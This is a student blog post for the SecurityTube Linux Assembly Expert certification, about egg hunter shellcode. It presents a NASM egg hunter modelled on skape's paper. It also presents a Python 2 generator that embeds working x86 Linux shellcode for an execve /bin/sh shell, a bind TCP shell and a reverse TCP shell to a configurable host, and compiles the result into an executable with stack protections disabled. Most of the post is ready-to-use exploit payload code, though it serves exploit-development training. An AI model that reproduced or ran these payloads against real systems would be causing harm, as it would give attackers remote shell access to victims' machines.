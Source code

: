 # Assignment 3: Egg Hunter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

### Problem

- Study about the Egg Hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads

### Solution

The first part of the task was to research what the Egg Hunter is and how it works. The following paper was used as the theoretical basis and the cornerstone of the final implementation:

![Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) by skape

The following Egg Hunter implementation used was used as the prototype to complete the task:

```nasm
00000000  6681C9FF0F        or cx,0xfff
00000005  41                inc ecx
00000006  6A43              push byte +0x43
00000008  58                pop eax
00000009  CD80              int 0x80
0000000B  3CF2              cmp al,0xf2
0000000D  74F1              jz 0x0
0000000F  B841414141        mov eax,0x41414141
00000014  89CF              mov edi,ecx
00000016  AF                scasd
00000017  75EC              jnz 0x5
00000019  AF                scasd
0000001A  75E9              jnz 0x5
0000001C  FFE7              jmp edi
```

As described skape's paper, the above code will execute the `sigaction()` system call on each memory within an address space incrementally in an attempt to identify accesible memory regions. For each region identified, the code will incrementally traverse it looking for the Egg, which is nothing but a unique known string injected at the beginning of the actual shellcode. Since the Egg is 8-byte aligned, the next address after the Egg will be the shellcode, which is where execution flow is transfered after the Egg is identified. 

The final imlementation in Python uses the prototype Egg Hunter shellcode to add egg, shellcode and output file configuration options. The script allows to choose between Execve, Bind TCP, and Reverse TCP shellcodes, providing attional functionality for setting the remote and local host IP and port parameters. 

## egghunter.py

```python
#!/usr/bin/python

#####	Generate an executable 		

def generateElf(shellcode):
	print "\n[+] Staged Shellcode Length: %d\n" % len(bytearray(shellcode))
	sc = ""
	for c in bytearray(shellcode):
		sc += "\\x%02x" % c
	print sc

	egg = ""
	for c in range(0, 8, 2):
		egg += "\\x%s%s" % (args.egg[c], args.egg[c+1])
	print "\n[+] Egg: %s" % egg

	skeleton = '''
	#include<stdio.h>
	#include<string.h>
	#define EGG "__EGG__"
	unsigned char code[] = EGG EGG "__SHELLCODE__";
	unsigned char hunter[] = \\
		"\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74"
		"\\xf1\\xb8"   EGG  "\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7";
	main() {
		printf("Hunter Shellcode Length:  %d\\n", strlen(hunter));
		int (*ret)() = (int(*)())hunter;
		ret();
	}	
	'''

	skeleton = skeleton.replace("__EGG__", egg)
	skeleton = skeleton.replace("__SHELLCODE__", sc)

	with open("a.c", "w") as f:
		f.write(skeleton)

	os.system("gcc a.c -fno-stack-protector -z execstack")
	os.rename("a.out", args.outfile)
	os.rename("a.c", "%s.c" % args.outfile)

	print "\n[+] Executable: %s\n" % args.outfile


def execShellcode(args):

	shellcode = (
		"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x8d"
		"\x1c\x24\x50\x8d\x14\x24\x53\x8d\x0c\x24\xb0\x0b\xcd\x80"
	)

	generateElf(shellcode)


def bindShellcode(args):

	if args.lport not in range(1,65536):
		sys.exit("[!] Bad LPORT!")

	port = struct.pack(">H", int(args.lport))

	shellcode = (
		"\x31\xc0\x31\xdb\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xb3\x01"
		"\xb0\x66\xcd\x80\x89\xc6\x31\xc0\xb0\x01\x50\x89\xe1\x51"
		"\x40\x50\x48\x50\x56\x89\xe1\xb3\x0e\xb0\x66\xcd\x80\x31"
		"\xc0\x50\x66\x68"+port+"\x66\x6a\x02\x89\xe1\x6a\x10\x51"
		"\x56\x89\xe1\xb3\x02\xb0\x66\xcd\x80\x66\x68\x02\x10\x56"
		"\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc0\x50\x50\x56\x89"
		"\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xc7\x31\xc9\xb1\x02\x89"
		"\xfb\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68"
		"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2"
		"\x53\x89\xe1\xb0\x0b\xcd\x80\xe9\x76\xff\xff\xff"
		)

	generateElf(shellcode)


def revShellcode(args):

	if len(args.lhost.split(".")) != 4: 
		sys.exit("[!] Bad LHOST!")

	if args.lport not in range(1,65536):
		sys.exit("[!] Bad LPORT!")

	host = ""
	addr = args.lhost.split(".")
	for a in addr:
		host += struct.pack(">B", int(a))

	port = struct.pack(">H", int(args.lport))

	shellcode = (
		"\x31\xc0\x31\xdb\x6a\x06\x6a\x01\x6a\x02\x89\xe1"
		"\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x68"+host+"\x66"
		"\x68"+port+"\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56"
		"\x89\xe1\xb3\x03\xb0\x66\xcd\x80\x31\xc9\xb1\x02"
		"\x89\xf3\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31"
		"\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
		"\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
		)

	generateElf(shellcode)


import sys
import os
import struct
import argparse

a = argparse.ArgumentParser()
suba = a.add_subparsers()

execa = suba.add_parser("exec")
execa.set_defaults(func=execShellcode)

binda = suba.add_parser("bind")
binda.add_argument("--lport", "-p", type=int, required=True, help="LPORT (must be between 1 and 65535)")
binda.set_defaults(func=bindShellcode)

reva = suba.add_parser("reverse")
reva.add_argument("--lhost", "-l", required=True, help="LHOST (must be IPv4)")
reva.add_argument("--lport", "-p", type=int, required=True, help="LPORT (must be between 1 and 65535)")
reva.set_defaults(func=revShellcode)

a.add_argument("--egg", "-e", default="41414141", help="EGG to hunt (must be 8 bytes; default: 41414141)")
a.add_argument("--outfile", "-o", default="hunter", help="Output ELF executable filename (default: hunter)")

args = a.parse_args()
print "\n",args,"\n"

error = False
if len(args.egg) != 8: 
	sys.exit("[!] Bad EGG!")

args.func(args)
```

## Example

A sample run produces the following output:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-3/a3.png "Example")
